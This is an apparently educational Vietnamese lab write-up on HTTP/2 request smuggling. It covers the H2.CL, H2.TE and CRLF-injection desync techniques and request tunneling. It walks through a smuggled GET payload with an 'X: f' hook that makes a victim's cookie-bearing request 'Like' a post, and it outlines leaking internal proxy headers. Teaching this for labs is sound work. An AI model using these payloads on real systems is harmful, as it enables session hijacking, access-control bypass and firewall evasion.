# **HTTP/2 Request Smuggling**
## **1. Introduction**


**1. Mục đích bài học**
* Tìm hiểu các cách lách (smuggle) request qua proxy sử dụng HTTP/2
* Mặc dù HTTP/2 được thiết kế để ngăn chặn request smuggling, lỗ hổng này vẫn có thể bị khai thác trong một số kịch bản nhất định, thậm chí dễ dàng hơn

**2. Mục tiêu học tập**
* Hiểu các kiến thức cơ bản về giao thức HTTP/2
* Học cách khai thác lỗ hổng HTTP request smuggling thông qua HTTP/2
* Sử dụng các công cụ để phát hiện và khai thác các lỗ hổng này

**3. Yêu cầu đầu vào (Prerequisites)**
* Phải hoàn thành phòng lab "HTTP Request Smuggling" trước đó
* Cần sử dụng thành thạo các công cụ proxy như Burp hoặc ZAP

## **2. HTTP/2 Explain**
### Giao thức HTTP/2
*   HTTP/2 sử dụng giao thức nhị phân hoàn toàn, khác với HTTP/1.1 có thể đọc được bằng mắt thường. Cải tiến này giúp máy móc phân tích cú pháp dễ dàng hơn mà không bị lỗi.



*   Cấu trúc của một request HTTP/2 bao gồm:
    *   **Pseudo-headers (Header giả):** Bắt đầu bằng dấu hai chấm `:`, ví dụ như `:method`, `:path`, `:scheme`, và `:authority`. Đây là những thành phần tối thiểu cho một request hợp lệ.
    *   **Headers:** Các header thông thường theo sau pseudo-headers, ví dụ: `user-agent` và `content-length`. Tên header trong HTTP/2 sử dụng chữ in thường.
    *   **Request Body (Thân request):** Chứa thông tin bổ sung như tham số POST, file tải lên, v.v., tương tự như HTTP/1.1.
*   HTTP/2 thiết lập ranh giới chính xác cho từng phần của request hoặc response bằng cách thêm các trường để theo dõi kích thước, thay vì dựa vào các ký tự đặc biệt như `\r\n` hoặc `:` trong HTTP/1.

### Request Smuggling và HTTP/2

*   **Tại sao HTTP/1 dễ bị tấn công?** Trong giao thức HTTP/1 cũ, các hệ thống trung gian (như proxy) thường gặp khó khăn trong việc xác định xem request này đã kết thúc ở đâu và request tiếp theo bắt đầu từ đâu. Sự mập mờ trong cách hiểu ranh giới dữ liệu này tạo ra khe hở để hacker lén chèn thêm (smuggle) các request độc hại vào luồng kết nối.
*   **Cách HTTP/2 khắc phục vấn đề:** HTTP/2 giải quyết triệt để sự mập mờ trên bằng cách "đóng gói" dữ liệu chặt chẽ hơn. Trước mỗi phần của một request, HTTP/2 đều đính kèm một con số cho biết phần đó dài chính xác bao nhiêu.
    *   *Ví dụ:* Thay vì gửi một cụm `:method GET` chung chung, HTTP/2 sẽ khai báo rõ ràng: tên trường `:method` dài 7 ký tự, giá trị `GET` dài 3 ký tự. Máy chủ chỉ việc đếm đúng số ký tự đó để đọc dữ liệu nên không thể nhầm lẫn ranh giới.



*   **Các trường khai báo độ dài cũ trở nên thừa thãi:** Vì HTTP/2 đã có cơ chế tự đếm chiều dài rất tốt ở trên, nên các header kiểu cũ dùng để báo kích thước của HTTP/1 (như `Content-Length` hay `Transfer-Encoding: chunked`) thực chất không còn tác dụng gì nếu toàn bộ hệ thống đều dùng HTTP/2. Dù vậy, các trình duyệt web hiện nay vẫn gửi kèm các header cũ này để đề phòng trường hợp phải giao tiếp với các máy chủ đời cũ.
*   **Vậy tại sao lỗ hổng HTTP/2 Request Smuggling vẫn xảy ra?** Vấn đề không nằm ở bản thân HTTP/2, mà nằm ở sự "lệch pha" giữa các máy chủ. Kịch bản phổ biến nhất là: Hệ thống mặt tiền (như Proxy hoặc Load Balancer) rất hiện đại và dùng HTTP/2, nhưng các máy chủ thực thi ở phía sau (server farm/backend) lại là đồ cũ và chỉ hiểu HTTP/1. Khi Proxy "dịch" dữ liệu từ HTTP/2 sang HTTP/1 để gửi ra phía sau (gọi là HTTP downgrade), quá trình dịch thuật này có thể bị lỗi, tạo cơ hội cho hacker lợi dụng để thực hiện Request Smuggling.

## **3. HTTP/2 Desync**
### 1. Hiện tượng hạ cấp HTTP/2 (HTTP/2 Downgrading)
*   **Định nghĩa:** HTTP/2 downgrading xảy ra khi một hệ thống Proxy ngược (Reverse Proxy) giao tiếp với người dùng bằng HTTP/2, nhưng lại chuyển đổi (hạ cấp) các request đó thành HTTP/1.1 để gửi cho máy chủ xử lý thực tế (Backend Server) ở phía sau.



*   **Nguy cơ:** Việc hạ cấp này tạo ra kịch bản lý tưởng để lỗ hổng Request Smuggling xuất hiện trở lại. Lỗi không nằm ở bản thân HTTP/2, mà nằm ở quá trình Proxy "dịch" dữ liệu sai cách

### 2. Các phương pháp khai thác Request Smuggling qua HTTP/2
Tin tặc lợi dụng quá trình hạ cấp này bằng cách gửi các request HTTP/2 được thiết kế đặc biệt để gây ra tình trạng "bất đồng bộ" (desync) tại máy chủ HTTP/1.1 phía sau 

**A. Kỹ thuật H2.CL (HTTP/2 to Content-Length)**
*   Mặc dù HTTP/2 không cần header `Content-Length`, ta vẫn cố tình chèn nó vào request gửi cho Proxy (ví dụ: `content-length: 0`)



*   Khi Proxy chuyển đổi sang HTTP/1.1, nó chuyển tiếp luôn header giả mạo này
*   Máy chủ Backend nhận được `Content-Length: 0` sẽ lầm tưởng request đã kết thúc, trong khi thực tế dữ liệu ở phần thân (body) vẫn còn
*   Phần dữ liệu thừa này (ví dụ chữ `HELLO`) sẽ bị "mắc kẹt" lại và tự động nối vào đầu request của người dùng tiếp theo, gây sai lệch kết quả



**B. Kỹ thuật H2.TE (HTTP/2 to Transfer-Encoding)**
*   Tương tự như H2.CL, ta chèn thêm header `transfer-encoding: chunked` vào request HTTP/2.



*   Proxy chuyển tiếp nguyên vẹn header này cho máy chủ Backend.
*   Nếu Backend ưu tiên đọc kích thước theo dạng chunked, ta chỉ cần gửi một chunk có kích thước `0` để đánh lừa máy chủ rằng request đã kết thúc.
*   Phần dữ liệu còn lại phía sau số `0` sẽ trở thành một request "buôn lậu" (smuggled request), lây nhiễm sang kết nối của nạn nhân.

**C. Kỹ thuật CRLF Injection (Tiêm mã CRLF)**
*   **CRLF là gì?** Nó là viết tắt của hai ký tự ngắt dòng: **CR** (Carriage Return - `\r`) và **LF** (Line Feed - `\n`). Trong HTTP/1.1, tổ hợp `\r\n` được dùng làm ranh giới để phân chia các header với nhau, và phân chia phần header với phần thân.
*   **Cách thức tấn công:** Vì HTTP/2 là giao thức nhị phân nên nó cho phép chèn bất kỳ ký tự nào, kể cả `\r\n`, trực tiếp vào bên trong các trường giá trị (ví dụ: gài `\r\n` vào giữa một tên header). 



*   Khi Proxy chuyển đổi sang HTTP/1.1 dạng văn bản, nếu nó không lọc bỏ (sanitize) kỹ, cụm `\r\n` này sẽ vô tình trở thành ký tự ngắt dòng thực sự của HTTP/1.1.
*   Hậu quả là tin tặc có thể tùy ý tạo ra các header mới, hoặc thậm chí cắt đứt luồng dữ liệu để chèn nguyên một request giả mạo (smuggled request) hoàn chỉnh vào hệ thống.

### 3. Thực hành Lab: Khai thác H2.CL Request Smuggling

**Mục tiêu bài Lab:**

Ứng dụng cung cấp một tính năng tương tác (Like/Dislike) bài viết. Mục tiêu của chúng ta là lợi dụng lỗ hổng Request Smuggling để ép một người dùng khác (Victim) tự động "Like" bài viết của chúng ta.

**Phân tích cơ chế hoạt động:**

Thông qua việc phân tích thao tác "Like", ta thấy đây là một request `GET`. Request này sẽ đính kèm theo Cookie của người dùng để hệ thống Backend xác thực danh tính (nhằm xác định ai là người thực hiện hành động).

Bài lab này được thiết kế với kịch bản lỗ hổng **H2.CL**. Nghĩa là quá trình hạ cấp HTTP (downgrade) đang gặp vấn đề: hệ thống Proxy mặt tiền sử dụng giao thức HTTP/2, nhưng máy chủ Backend phía sau lại xử lý bằng giao thức HTTP/1.1.

**Ý tưởng và Kịch bản khai thác:**

Trong môi trường HTTP/2, kích thước gói tin được xác định rõ ràng nên header `Content-Length` không có tác dụng. Tuy nhiên, ta vẫn cố tình "đầu độc" bằng cách chèn header `content-length: 0` vào request HTTP/2. Khi Proxy dịch sang HTTP/1.1, Backend đọc được `Content-Length: 0` sẽ bị đánh lừa rằng request đã kết thúc, trong khi thực tế ta đã lén giấu một "request lậu" (smuggled request) vào phần thân (body).

Nội dung phần body được chèn thêm chính là lệnh ép "Like" bài viết:

```http
GET /post/12315198742342 HTTP/1.1\r\n
X: f
```

**Tại sao lại phải thêm `X: f` ở cuối?**
Đây là kỹ thuật thả "lưỡi câu". Khi Backend xử lý request lậu, đọc đến dòng `X: f`, nó sẽ coi đây là một header chưa hoàn chỉnh và tạm dừng lại để chờ nhận đủ dữ liệu. Đúng lúc này, khi Victim duyệt web và gửi request tới (dĩ nhiên có mang theo Cookie của họ), toàn bộ request của Victim sẽ bị "hút" và nối thẳng vào sau chiếc lưỡi câu này.



Kết quả là dòng khai báo request của Victim (`GET / HTTP/1.1\r\n`) sẽ bị nối liền với chữ `f`, biến thành: `X: fGET / HTTP/1.1\r\n`. 
Sự kết hợp này tạo ra một header rác hoàn toàn hợp lệ, giúp request lậu của chúng ta không bị lỗi cú pháp, đồng thời "bắt cóc" luôn phần Cookie xác thực của Victim nằm ngay phía dưới.

**Tiến hành khai thác:**


Ta thực hiện gửi payload độc hại qua Repeater và chờ đợi khoảng 15-30 giây để mô phỏng việc Victim gửi request lọt vào bẫy.



**Kết quả:** Bẫy sập thành công! Đã có một Victim lọt vào chuỗi request mắc kẹt ở Backend, khiến hành động "Like" bài viết được thực thi hợp lệ dưới danh nghĩa của họ.

## **4. HTTP/2 Request Tunneling (Đường hầm Request)**

**Request Tunneling khác gì với Desync?**
*   Các kỹ thuật tấn công trước đây (Desync) đều phụ thuộc vào việc máy chủ Backend tái sử dụng chung một kết nối HTTP duy nhất để phục vụ tất cả người dùng.
*   Tuy nhiên, trong một số hệ thống Proxy, mỗi người dùng sẽ được cấp một kết nối Backend riêng biệt để tách biệt hoàn toàn các request với nhau.
*   Khi có kết nối riêng lẻ (per-user connections), kẻ tấn công sẽ không thể can thiệp hay lây nhiễm sang request của những người dùng khác.
*   Mặc dù vậy, kẻ tấn công vẫn có thể lách (smuggle) các request qua Frontend Proxy thông qua chính kết nối cá nhân của họ để đạt được một số mục đích nhất định. Kịch bản tấn công bị giới hạn trong kết nối của chính kẻ tấn công này được gọi là **Request Tunneling**.


<br>

> Nếu mỗi người dùng đã có một đường kết nối Backend riêng biệt (không thể lây nhiễm chéo), thì việc lén chèn request (Smuggling/Tunneling) trên chính kết nối của mình có ý nghĩa gì?

Mục tiêu lúc này đã thay đổi: Không phải để tấn công người dùng khác, mà là để **lừa hệ thống bảo vệ (Frontend Proxy)** nhằm thọc sâu vào máy chủ (Backend).

Lợi ích của việc tự "đào hầm" (Tunneling) trên kết nối của mình:
*   **Vượt mặt kiểm duyệt (Bypass Access Control):** Proxy đóng vai trò như người gác cổng, sẽ chặn các truy cập trái phép (ví dụ: trang `/admin` hoặc API nội bộ).
*   **Giấu "hàng cấm":** Bằng cách giấu một request cấm vào bên trong phần thân của một request hợp pháp, hacker tạo ra một vỏ bọc an toàn.
*   **Qua mặt Tường lửa (WAF Evasion):** Proxy kiểm tra vỏ ngoài thấy hợp lệ nên cho đi qua. Khi gói dữ liệu tới được Backend, request độc hại ẩn bên trong sẽ bung ra và được thực thi.

## **5. Rò rỉ các Header nội bộ (Leaking Internal Headers)**

**Mục đích:**
*   Frontend proxy đôi khi sẽ tự động thêm một số header nội bộ (ví dụ: `X-Internal`) vào request trước khi gửi cho Backend.
*   Để smuggling thành công các request cụ thể qua proxy, ta có thể cần biết và giả mạo các header nội bộ này.
*   Cách đơn giản nhất là lợi dụng một tính năng của Backend có phản hồi (reflect) lại dữ liệu người dùng nhập vào (ví dụ: tham số `q` của chức năng tìm kiếm tại đường dẫn `/hello`).

**Cơ chế tấn công:**
*   Lợi dụng lỗ hổng của HAProxy cho phép chèn các ký tự ngắt dòng CRLF (`\r\n`) thông qua một header tùy chỉnh tự tạo (ví dụ header `Foo`).



*   Bằng cách chèn CRLF, ta ngắt request ban đầu thành hai request riêng biệt ở phía Backend.
    *   **Request 1:** Bị ép kết thúc sớm bằng cách chèn `Content-Length: 0` vào trong header `Foo`, khiến Backend nghĩ request này không có phần thân (body).
    *   **Request 2 (Request lậu):** Do Proxy thường chèn các header nội bộ vào ngay sau header `Foo`, các header này sẽ bị đẩy xuống và biến thành giá trị nằm trong tham số `q=` của phần thân request thứ hai.
*   Request thứ hai được gài sẵn `Content-Length: 300` (đây là con số phỏng đoán kích thước của các header nội bộ, cần điều chỉnh nếu bị thiếu dữ liệu hoặc kết nối bị treo).

### Thực hành cấu hình payload trên Burp Suite: Trích xuất Internal Header qua H2 Tunneling

**1. Khảo sát tính năng ứng dụng**
Lab cung cấp một tính năng tìm kiếm. Khi nhập từ khóa, hệ thống sẽ xử lý và phản hồi (reflect) trực tiếp từ khóa đó lên giao diện người dùng.


